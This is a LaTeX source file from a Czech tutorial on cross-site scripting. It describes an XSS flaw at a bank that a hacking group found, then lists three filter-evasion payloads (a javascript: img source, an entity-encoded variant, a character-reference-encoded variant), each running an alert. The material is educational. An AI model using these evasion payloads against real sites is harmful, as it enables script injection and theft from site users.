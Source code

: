 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{figure}[h!]
\includegraphics[width=390px]{./examples/xss-airbank.png}
\caption{Non-persistent XSS}
\label{obr.airbank}
\end{figure}

Tato chyba byla objevena skupinou Czechurity, která má na svědomí i hacknutí webových stránek Unicredit bank v březnu 2013, které bylo médii chybně interpretováno jako DDoS\footnote{Distributed Denial of Service - útok, který zahlcuje službu, až dojde k jejímu pádu nebo nedostupnosti pro ostatní uživatele.}.

\subsection{Různé varianty zapsání XSS}
Výstupy na webových stránkách mohou být různým způsobem filtrovány, popřípadě může být přímo filtrován script tag. Lze toto obejít? Odpovědí je bohužel: . Zde několik příkladů (ale ne všechny prohlížeče toto interpretují):

\begin{lstlisting}[label=some-code, language=HTML, caption=Schování JavaScriptu do neexistujícího obrázku]
<img src="javascript:alert('XSS');">
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Zakázané uvozovky? Nahrazení entitami \ldots]
<img src=javascript:alert(\&quot;XSS\&quot;)>
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Další možností je převedení na unikód]
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;
&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
\end{lstlisting}
\end{document}
